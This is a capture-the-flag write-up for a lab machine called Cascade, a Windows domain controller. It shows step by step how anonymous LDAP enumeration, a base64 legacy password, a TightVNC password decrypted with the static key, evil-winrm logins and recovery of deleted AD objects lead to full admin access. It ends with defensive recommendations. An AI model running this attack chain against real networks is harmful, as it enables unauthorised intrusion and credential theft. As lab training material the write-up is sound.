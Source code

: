 # Nmap
```bash
nmap 10.10.10.182 -sC -sV
```
13 ports open. Showing that it is also a domain controller. LDAP leaks the domain name of cascade.local

Adding that to /etc/hosts

As there is no webserver checking LDAP and SMB

# LDAP
```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts
```
Domain DC=cascade,DC=local

Then dump LDAP
```bash
ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_anon
```
Enumerate usernames, to try to find username conventions
```bash
cat ldap_anon | grep sAMAccountName
```
This shows a naming convention of f.lastname
```
s.smith
r.thompson
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
j.allen
i.croft
```
Check for unique values. Which finds a legacyPwd.
```bash
cat ldap_anon | sort | uniq -c | sort -nr
	1 cascadeLegacyPwd: clk0bjVldmE=
```
b64 decode
rY4n5eva

This is r.thompson's password :)

Check with crackmapexec
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva
```
This works but doesn't say pwned.

Check smb with user.
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares
```
Unique things.
Data and print

Using spider_plus in cme
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```

Interesting files.
- meeting notes
- recyclebin
- s.smith files
- mapdatadrive

# SMB Drives
Mount the drives
```bash
sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/data /mnt/data

sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/netlogon /mnt/netlogon
```

Check the netlogon files. No passwords :(

Audit drive? no permission to mount drive :(
password in vnc install.reg
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
kÏ*KnZÊ.
```
which is encrypted

# VNC

googling vnc it turns out to be tightvnc which has a static key :/
running these commands from with irb in msf6:
```ruby
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"  
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```
outputs
```
sT333ve2
```

This will be the password for s.smith
trying with cme again

```bash
crackmapexec 10.10.10.182 -u s.smith -p sT333ve2
```
Which says Pwn3d! !

# Foothold
User flag
```bash
3a48ee5fd948da5862bad545d8f3e1e0
```

```bash
crackmapexec smb 10.10.10.182 -u s.smith -p sT333ve2 -M spider_plus
```
This shows a new audit share with 3 interesting files.

runAudit.bat, cascaudit.exe, casccrypt.dll

Reverse engineer the exe to return the output from line 44.
Using dnSpy.
```
w3lc0meFr31nd
```
But for what user?

Dump the sql database
```bash
sqlite3 Audit.db .dump
```
Password was for ArkSvc
Login with evil-winrm
```bash
evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd
```
Check privs

member of the recycle bin group?
So we can get deleted items?

Google says yes!

Get-ADObject
```powershell
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter
{ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```

Two files.
One which has a cascadeLegacyPwd :)
```
baCT3r1aN00dles
```
Which is the default admin password (from the note earlier)

check for the administrator user.
```powershell
net user administrator
```

The final evil-winrm
and admin :)
```shell
d5a30650809a2b377278273b7d0b7f38
```

# Clean up
Didn't add any files.

# Recommendations
Dont reuse passwords for admin accounts.
Remove the cascadeLegacyPwd field from r.thompson and tempadmin from within LDAP.
Use a better vnc type as this one has a static password, so the encryption is useless.
Dont have hardcoded credentials for an encryption algorithm (Audit.exe)
Why does s.smith need to be able to view the database?
Have a stronger password policy and have rotations every 30 days.
Disable winrm on all accounts that dont need it.



---
Creation date: 28-10-2022

Last modified date: Friday 28th October 2022
***
